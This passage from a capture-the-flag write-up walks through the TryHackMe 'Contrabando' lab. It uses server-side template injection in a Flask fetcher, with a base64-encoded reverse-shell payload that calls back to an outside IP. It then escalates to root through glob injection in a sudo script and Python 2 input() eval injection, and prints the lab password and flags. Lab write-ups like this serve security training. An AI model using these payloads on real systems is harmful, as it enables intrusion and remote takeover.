/usr/bin/python3/usr/share/unattended-upgrades/unattended-upgrade-shutdown--wait-for-signal
/usr/bin/python3/usr/share/unattended-upgrades/unattended-upgrade-shutdown--wait-for-signal
```

Okay, we can see the source code located at `/home/hansolo/app/app.py`.

Let's get it:
```py
from flask import Flask, render_template, render_template_string, request
import pycurl
from io import BytesIO

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def display_website():
    if request.method == 'POST':
        website_url = request.form['website_url']

        # Use pycurl to fetch the content of the website
        buffer = BytesIO()
        c = pycurl.Curl()
        c.setopt(c.URL, website_url)
        c.setopt(c.WRITEDATA, buffer)
        c.perform()
        c.close()

        # Extract the content and convert it to a string
        content = buffer.getvalue().decode('utf-8')
        buffer.close()
        website_content = '''
        <!DOCTYPE html>
<html>
<head>
    <title>Website Display</title>
</head>
<body>
    <h1>Fetch Website Content</h1>
    <h2>Currently in Development</h2>
    <form method="POST">
        <label for="website_url">Enter Website URL:</label>
        <input type="text" name="website_url" id="website_url" required>
        <button type="submit">Fetch Website</button>
    </form>
    <div>
        %s
    </div>
</body>
</html>'''%content

        return render_template_string(website_content)

    return render_template('index.html')

if __name__ == '__main__':
    app.run(host="0.0.0.0",debug=False)
```

we can see it fetches data from the URL we give it, and the render it with `render_template_string`. Since the built in render engine is `Jinja`, we might be able to get `SSTI`, which can leads to `RCE`.

Let's create our file, and host it on our machine:
```bash
┌──(agonen㉿kali)-[~/thm/Contrabando]                                                                                                                        
└─$ echo -e '{{7*7}}' > test                                                                                                                                 

                                 
┌──(agonen㉿kali)-[~/thm/Contrabando]                                         
└─$ python3 -m http.server 8081                                               
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...                                                                                                 
10.65.188.171 - - [07/Jan/2026 01:01:29] "GET /test HTTP/1.1" 200 -
```

as we can see, we did got `SSTI`.



Okay, Now I want to give a payload for reverse shell:
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDMgMD4mMSkgJg==|base64 -d|bash').read() }}
```

and we got reverse shell as `hansolo`:



we can grab the user flag:
```bash
hansolo@contrabando:~$ cat hansolo_userflag.txt 
THM{Th3_BeST_SmuGGl3R_In_Da_GalaXy}
```

### Privilege Escalation to Root using glob injection to get password and then unsecure input used in python2

First, I executed `sudo -l` to check sudo permissions:
```bash
hansolo@contrabando:/tmp$ sudo -l
Matching Defaults entries for hansolo on contrabando:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hansolo may run the following commands on contrabando:
    (root) NOPASSWD: /usr/bin/bash /usr/bin/vault
    (root) /usr/bin/python* /opt/generator/app.py
```

we can see we are able to execute `/usr/bin/bash /usr/bin/vault` as root without any password. Let's see what is `/usr/bin/vault`:
```bash
hansolo@contrabando:/tmp$ cat /usr/bin/vault
#!/bin/bash

check () {
        if [ ! -e "$file_to_check" ]; then
            /usr/bin/echo "File does not exist."
            exit 1
        fi
        compare
}


compare () {
        content=$(/usr/bin/cat "$file_to_check")

        read -s -p "Enter the required input: " user_input

        if [[ $content == $user_input ]]; then
            /usr/bin/echo ""
            /usr/bin/echo "Password matched!"
            /usr/bin/cat "$file_to_print"
        else
            /usr/bin/echo "Password does not match!"
        fi
}

file_to_check="/root/password"
file_to_print="/root/secrets"

check
```

This script gets some user input, check if it equals ot the content at `/root/password`, and if so, it outputs the content of `/root/secrets`.
We can detect glob injection vulnerability, what does it mean:
```bash
hansolo@contrabando:/tmp$ user_input='bla'                                
hansolo@contrabando:/tmp$ if [[ "secret" == $user_input ]];then echo "equal"; fi
### now, with *
hansolo@contrabando:/tmp$ user_input='*'                                  
hansolo@contrabando:/tmp$ if [[ "secret" == $user_input ]];then echo "equal"; fi
equal
``` 

Okay, so let's try to give `*` as input:



Now, we can brute force the characters, char by char, like `a*`, `b*`, until we get success.
I used this script I wrote:
```py

```



We found the password `EQu5ehwHcRfZ`.

Now, we'll login via ssh to `hansolo` with this password. It is very important to do so, otherwise it won't work later.
```bash
┌──(agonen㉿kali)-[~/thm/Contrabando]
└─$ ssh hansolo@contrabando.thm  # EQu5ehwHcRfZ
```



We can go back to `sudo -l`:
```bash
hansolo@contrabando:~$ sudo -l
Matching Defaults entries for hansolo on contrabando:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hansolo may run the following commands on contrabando:
    (root) NOPASSWD: /usr/bin/bash /usr/bin/vault
    (root) /usr/bin/python* /opt/generator/app.py
```

we can see the second line is executing the script `/opt/generator/app.py`, with any python version we want, the avilable versions are:
```bash
hansolo@contrabando:~$ ls /usr/bin/python*
/usr/bin/python2  /usr/bin/python2.7  /usr/bin/python3  /usr/bin/python3.8  /usr/bin/python3.8-config  /usr/bin/python3-config
```

Let's check the script:
```py
import random
import string

def generate_password(length):
    characters = string.ascii_letters + string.digits + string.punctuation
    random.seed()
    secret = input("Any words you want to add to the password? ")
    password_characters = list(characters + secret)
    random.shuffle(password_characters)
    password = ''.join(password_characters[:length])

    return password

try:
    length = int(raw_input("Enter the desired length of the password: "))
except NameError:
    length = int(input("Enter the desired length of the password: "))
except ValueError:
    print("Invalid input. Using default length of 12.")
    length = 12

password = generate_password(length)
print("Generated Password:", password)
```

The script first asks for some length, and then asks for some secret. However, since we can control which python version to use, we can decide to use python2, and then the function `input` basiclly executes `eval`. This can be exploited to get `RCE`, as showen here [https://avishaigonen123.github.io/CTF_writeups/tryhackme/Develpy/#rce-using-input-function-python2](https://avishaigonen123.github.io/CTF_writeups/tryhackme/Develpy/#rce-using-input-function-python2).

So, let's try to give this input:
```py
__import__('os').system('id')
```

We got `RCE`, we can see the command `id` has been executed.



Now, I want to spawn a shell:
```py
__import__('os').system('/bin/bash')
```



and the root flag:
```bash
root@contrabando:/home/hansolo# cat /root/root.txt 
THM{All_AbouT_PassW0rds}
```